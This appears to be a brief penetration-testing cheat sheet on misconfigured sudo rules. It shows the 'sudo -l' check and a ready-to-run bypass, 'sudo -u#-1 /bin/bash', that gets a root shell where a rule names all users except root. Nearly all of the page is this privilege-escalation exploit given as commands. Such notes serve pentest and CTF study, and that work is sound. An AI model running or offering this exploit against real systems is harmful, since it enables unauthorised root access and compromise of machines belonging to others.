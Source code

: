 # Misconfigured sudo commands
## Checks
```
sudo -l
```
## Bypass (ALL, !root) /bin/bash ||| (ALL, !root) ALL
```
sudo -u#-1 /bin/bash
```
